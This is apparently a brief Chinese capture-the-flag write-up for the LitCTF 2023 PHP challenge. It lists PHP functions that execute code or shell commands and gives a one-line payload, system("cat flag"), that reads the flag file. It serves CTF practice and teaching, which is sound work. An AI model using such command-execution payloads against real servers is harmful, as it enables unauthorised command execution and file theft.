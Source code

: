 # [LitCTF 2023]PHP是世界上最好的语言

eval(): 执行字符串中的 PHP 代码。例如：eval('$x = 5;'); 会设置变量 $x 的值为 5。

assert(): 用于调试，检查一个条件是否为 true。

system(), shell_exec(), exec(), passthru(): 执行外部程序或系统命令。例如：system("ls"); 会执行 ls 命令并显示输出。

直接执行即可

``` php
<?php
system("cat flag");
?>
```
